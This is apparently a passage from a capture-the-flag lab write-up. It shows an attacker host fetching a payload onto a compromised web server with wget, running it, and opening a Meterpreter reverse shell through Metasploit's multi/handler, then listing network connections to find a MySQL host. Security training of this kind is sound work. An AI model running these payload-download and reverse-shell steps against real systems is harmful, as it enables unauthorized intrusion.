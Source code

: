 ```bash
View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.17:8081
```

On target
```bash
www-data@50bca5e748b0:/var/www/html$ wget 10.10.14.17/meter
wget 10.10.14.17/meter
--2023-05-06 10:03:25--  http://10.10.14.17/meter
Connecting to 10.10.14.17:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 250 [application/octet-stream]
Saving to: 'meter'

     0K                                                       100% 27.7M=0s

2023-05-06 10:03:25 (27.7 MB/s) - 'meter' saved [250/250]
www-data@50bca5e748b0:/var/www/html$ chmod +x meter
chmod +x meter
www-data@50bca5e748b0:/var/www/html$ ./meter
```

Get connection from `meterpreter`
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.17:8081 
[*] Sending stage (3045348 bytes) to 10.10.11.211
[*] Meterpreter session 1 opened (10.10.14.17:8081 -> 10.10.11.211:59278) at 2023-05-06 12:06:15 +0200

meterpreter > getuid
Server username: www-data
```

We got a `meterpreter` instance running. 
Now lets check to which IP the `mysql` script is connecting
```bash
meterpreter > netstat

Connection list
===============

    Proto  Local address     Remote address    State        User  Inode  PID/Program name
    -----  -------------     --------------    -----        ----  -----  ----------------
    tcp    0.0.0.0:80        0.0.0.0:*         LISTEN       0     0
    tcp    127.0.0.11:46641  0.0.0.0:*         LISTEN       0     0
    tcp    172.19.0.3:80     172.19.0.1:55664  CLOSE_WAIT   33    0
    tcp    172.19.0.3:42526  10.10.14.17:80    ESTABLISHED  33    0
    tcp    172.19.0.3:59108  172.19.0.2:3306   ESTABLISHED  33    0
    tcp    172.19.0.3:59278  10.10.14.17:8081  ESTABLISHED  33    0
    udp    127.0.0.11:35147  0.0.0.0:*                      0     0
```
